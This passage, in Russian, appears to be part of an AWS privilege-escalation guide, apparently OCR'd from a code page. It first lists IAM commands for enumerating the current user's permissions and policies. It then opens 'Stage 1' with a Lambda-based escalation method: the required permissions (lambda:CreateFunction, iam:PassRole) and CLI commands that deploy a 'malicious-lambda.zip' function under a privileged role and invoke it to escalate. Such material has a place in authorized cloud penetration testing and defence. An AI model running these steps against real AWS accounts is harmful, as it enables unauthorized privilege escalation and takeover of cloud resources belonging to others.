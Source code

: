 #### Команды для анализа прав:
```bash
# Определение текущего пользователя
aws sts get-caller-identity

# Получение информации о пользователе
aws iam get-user

# Список прикрепленных политик
aws iam list-attached-user-policies --user-name current-user

# Список встроенных политик
aws iam list-user-policies --user-name current-user

# Получение содержимого политики
aws iam get-policy --policy-arn arn:aws:iam::account:policy/PolicyName
aws iam get-policy-version --policy-arn arn:aws:iam::account:policy/PolicyName --version-id v1
```

---

### 🚀 **Этап 1: Методы эскалации привилегий**

#### 1. **Lambda-based Privilege Escalation**

##### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "lambda:CreateFunction",
                "lambda:InvokeFunction",
                "lambda:UpdateFunctionCode",
                "iam:PassRole"
            ],
            "Resource": "*"
        }
    ]
}
```

##### Метод атаки:
```bash
# Создание Lambda функции с повышенными правами
aws lambda create-function \
    --function-name privilege-escalation \
    --runtime python3.9 \
    --role arn:aws:iam::account:role/LambdaExecutionRole \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://malicious-lambda.zip

# Вызов Lambda функции для эскалации
aws lambda invoke \
    --function-name privilege-escalation \
    --payload '{"action": "escalate"}' \
    response.json
```
